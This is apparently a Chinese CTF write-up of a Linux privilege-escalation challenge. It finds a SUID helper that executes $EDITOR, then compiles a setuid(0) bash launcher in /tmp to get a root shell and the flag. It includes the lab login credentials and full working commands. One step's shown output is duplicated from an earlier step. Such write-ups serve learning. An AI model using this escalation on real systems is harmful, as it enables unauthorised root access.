 # ?CTF 2025 Platform(公开赛道) - [Week2] 《关于我穿越到CTF的异世界这档事:破》 （难度：Lunatic下位）
**Writer：DreamLost（QQ ID：Scarlet Secret）**
**Solve Time: 2025-10-11 11:33:30**
## 题目背景

metavi穿过第一层的光之门，眼前是一片由无数黑色石柱组成的荒原。石柱表面闪烁着绿色的字符流，仿佛是某种古老的系统在运转。
石柱的底层写着：用户：ctf，密码：CtfP@ssw0rd!2025
看完这一行之后，脚下的大地裂开，露出一座巨大的“终端祭坛”。祭坛上浮现出一行行命令，却被层层权限屏障所阻挡。 要想突破这一关，metavi必须找到隐藏在系统中的漏洞，逐步提升权限，直至掌控整个祭坛。
【第二层·linux提权：请ssh连接提权，找到祭坛深处的flag。】

## 解题步骤：

登录，使用ls时候会看到家目录下面有文件“note.txt”
内容是：Think About SUID

于是使用find查询系统内的SUID文件：
`find / -type f -perm -4000 2>/dev/null`

得到：
```
/usr/local/bin/editnote
/usr/bin/chsh
/usr/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/lib/openssh/ssh-keysign
```

此时如果我们cat一下这个神奇的“editnote”，得：
```
�'GN�e�m)X t 0� ""__cxa_finalize__libc_start_mainexeclpgetenvperrorlibc.so.6GLIBC_2.34GLIBC_2.2.5_ITM_deregisterTMCloneTable__gmon_start___ITM_registerTMCloneTable7���Au␦i     L��@�?�?�?�?��?�?�?��H�H��/H��t��H���5�/��%�/��h���������h���������h�����������%�/D����%E/D����%=/D����%5/D��1�I��^H��H���PTE1�1�H�=��/�f.�H�=9/H�2/H9�tH��.H��t        �����H�=       /H�5/H)�H��H��?H��H�H��tH��.H����fD�����=�.u+UH�=�.H��t
                                                      H�=�.������d�����.]������w�����UH��H�� �}�H�u�H�aH�������H�E�H�}�t
                                                                                                                       H�E����u
       H�CH�E�H�;H�E�H�U�H�u�H�E�H�Ǹ����H�&H���|��������H�H��EDITORvi/home/ctf/notes.txtexeclp failed4����h0����@����p���PY����zRx
         ���&D$4����@FJ
y                      �?␦:*3$"\����t����0������E�C
�@7

�␦����o���
�
 �?HP� ������o`���o���oN���o�=0@@GCC: (Ubuntu 11.4.0-1ubuntu1~22.04.2) 11.4.0�� � ��� 3@I␦@U�=|���=������!����=�0 ��?�" M @>@E
      K@X @t �␦@Q�&�␦@�����@� ��"
                                 Scrt1.o__abi_tagcrtstuff.cderegister_tm_clones__do_global_dtors_auxcompleted.0__do_global_dtors_aux_fini_array_entryframe_dummy__frame_dummy_init_array_entryeditnote.c__FRAME_END___DYNAMIC__GNU_EH_FRAME_HDR_GLOBAL_OFFSET_TABLE_getenv@GLIBC_2.2.5__libc_start_main@GLIBC_2.34_ITM_deregisterTMCloneTable_edata_fini__data_start__gmon_start____dso_handle_IO_stdin_used_end__bss_startmainperror@GLIBC_2.2.5__TMC_END___ITM_registerTMCloneTableexeclp@GLIBC_2.2.5__cxa_finalize@GLIBC_2.2.5_init.symtab.strtab.shstrtab.interp.note.gnu.property.note.gnu.build-id.note.ABI-tag.gnu.hash.dynsym.dynstr.gnu.version.gnu.version_r.rela.dyn.rela.plt.init.plt.got.plt.sec.text.fini.rodata.eh_frame_hdr.eh_frame.init_array.fini_array.dynamic.data.bss.comment#886hh$I�� W���o��a
                                                                      ��i���q���oNN~���o``����BPP�  @�``�pp0���k�

�  0�0 0 4�h h ������=�-��?�@0
                            @00-@0�     �3�5␦
```

我们可以从中提取出这样的信息：
""__cxa_finalize__libc_start_mainexeclpgetenvperrorlibc.so.6GLIBC_2.34GLIBC_2.2.5_ITM_deregisterTMCloneTable__gmon_start___ITM_registerTMCloneTable

提取其中的关键字：
main**execlp** **getenv** **perror** **EDITOR**
其中**execlp**表明这个程序会执行一个外部程序，**getenv**显然是读取用户或者全局的环境变量，而大写的**EDITOR**就是getenv所读取的**环境变量**

我试着直接执行这个程序，回弹：
```
ctf@cl-161-2f56e14ea5a452da:~$ editnote
execlp failed: No such file or directory
```
没错，显然这个执行了一个很奇怪的文件。
最开始，我先试着去编辑了一下notes.txt

    ctf@cl-161-2f56e14ea5a452da:~$ cat > notes.txt << 'EOF'
    > /bin/bash -p
    > EOF

随后我尝试编辑EDITOR并执行editnote
```
ctf@cl-161-2f56e14ea5a452da:~$ export EDITOR="/home/ctf/notes.txt"
ctf@cl-161-2f56e14ea5a452da:~$ editnote
execlp failed: Permission denied
ctf@cl-161-2f56e14ea5a452da:~$
```
可以看出这确实会执行一个外部文件，那么我可以编写一个简单的程序并尝试透过SUID来以root执行，以此拿到rootshell。
但是这需要：
1.服务器有对应语言的编译器
2.有位置可读可写可执行

首先我们用which来查看服务器上有哪些编译器：
```shell
ctf@cl-161-2f56e14ea5a452da:~$ which python php gcc g++ java
/usr/bin/gcc
/usr/bin/g++
```
第一个条件找到了：我们可以用c或者c++来编写一个提权的程序，但是哪里是可执行可读写的目录呢？
此时我想到了/tmp目录，它刚好符合这个特征，使用**ls -l /**来验证一下
```shell
ctf@cl-161-2f56e14ea5a452da:~$ which python php gcc g++ java
/usr/bin/gcc
/usr/bin/g++
```

现在的思路很明确：编写一个C语言程序，使用**SUID的继承性**来运行这个程序就可以以Root权限来执行这个提权程序。
cat命令刚好可以让我们在服务器上编写好这个程序：
```shell
ctf@cl-161-2f56e14ea5a452da:~$ cat > /tmp/getroot.c << 'EOF'
#include <unistd.h>
//unistd.h 是一个在 C 和 C++ 程序设计语言中非常重要的头文件，它提供了对 POSIX 操作系统 API 的访问。
int main() {
    setuid(0);//设置程序的uid为0
    execl("/bin/bash", "bash", NULL);//以继承的root(UID=0)权限执行/bin/bash
    return 0;
}
EOF
ctf@cl-161-2f56e14ea5a452da:~$
```
、
编译，执行得到root shell
```shell
ctf@cl-161-2f56e14ea5a452da:~$ gcc /tmp/getroot.c -o /tmp/shellget
ctf@cl-161-2f56e14ea5a452da:~$ export EDITOR="/tmp/shellget"
ctf@cl-161-2f56e14ea5a452da:~$ editnote
root@cl-161-2f56e14ea5a452da:~#
```
得到root shell
使用find找寻flag文件
```shell
root@cl-161-2f56e14ea5a452da:~# find / -name "flag*"
/root/flag.txt
find: '/proc/1/task/1/fdinfo': Permission denied
find: '/proc/1/map_files': Permission denied
find: '/proc/1/fdinfo': Permission denied
find: '/proc/9/task/9/fdinfo': Permission denied
find: '/proc/9/map_files': Permission denied
find: '/proc/9/fdinfo': Permission denied
find: '/proc/20/task/20/fdinfo': Permission denied
find: '/proc/20/map_files': Permission denied
find: '/proc/20/fdinfo': Permission denied
find: '/proc/21/task/21/fdinfo': Permission denied
find: '/proc/21/map_files': Permission denied
find: '/proc/21/fdinfo': Permission denied
find: '/proc/27/task/27/fdinfo': Permission denied
find: '/proc/27/map_files': Permission denied
find: '/proc/27/fdinfo': Permission denied
find: '/proc/38/task/38/fdinfo': Permission denied
find: '/proc/38/map_files': Permission denied
find: '/proc/38/fdinfo': Permission denied
find: '/proc/39/task/39/fdinfo': Permission denied
find: '/proc/39/map_files': Permission denied
find: '/proc/39/fdinfo': Permission denied
find: '/proc/48/task/48/fdinfo': Permission denied
find: '/proc/48/map_files': Permission denied
find: '/proc/48/fdinfo': Permission denied
find: '/proc/59/task/59/fdinfo': Permission denied
find: '/proc/59/map_files': Permission denied
find: '/proc/59/fdinfo': Permission denied
find: '/proc/60/task/60/fdinfo': Permission denied
find: '/proc/60/map_files': Permission denied
find: '/proc/60/fdinfo': Permission denied
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/tunl0/flags
root@cl-161-2f56e14ea5a452da:~#
```
去/root目录查看flag：
得到
```shell
root@cl-161-2f56e14ea5a452da:~# cat /root/flag.txt
flag{043209e6-2cf5-453d-9c30-fe5851892154}
```

所以，flag正式浮出水面：flag{043209e6-2cf5-453d-9c30-fe5851892154}